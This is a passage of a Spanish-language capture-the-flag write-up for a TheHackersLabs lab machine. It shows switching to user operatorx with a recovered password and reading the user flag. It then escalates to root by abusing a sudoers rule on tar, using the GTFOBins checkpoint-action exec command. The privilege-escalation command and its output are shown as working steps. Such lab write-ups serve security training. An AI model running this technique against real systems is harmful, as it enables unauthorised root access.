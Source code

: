 Y listo, tenemos la contraseña otra vez.

Usémosla:
```bash
www-data@TheHackersLabs-Operator:/home$ su operatorx
Password: 
operatorx@TheHackersLabs-Operator:/home$ whoami
operatorx
```
Ya somos el **usuario operatorx**.

En su directorio encontraremos la flag del usuario:
```bash
operatorx@TheHackersLabs-Operator:/home$ cd operatorx/
operatorx@TheHackersLabs-Operator:~$ ls
user.txt
operatorx@TheHackersLabs-Operator:~$ cat user.txt
...
```

<br>

<h2 id="tar">Abusando de Permisos Sudoers Sobre Binario tar para Escalar Privilegios</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
operatorx@TheHackersLabs-Operator:~$ sudo -l
Matching Defaults entries for operatorx on TheHackersLabs-Operator:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User operatorx may run the following commands on TheHackersLabs-Operator:
    (ALL) NOPASSWD: /usr/bin/tar
```
Podemos usar el binario **tar** como **Root**.

Encontraremos una forma de escalar privilegios en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/tar/" target="_blank">GTFOBins: tar</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-uploader/Captura13.png">
</p>

Probémoslo:
```bash
operatorx@TheHackersLabs-Operator:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@TheHackersLabs-Operator:/home/operatorx# whoami
root
```
Listo, somos **Root**.
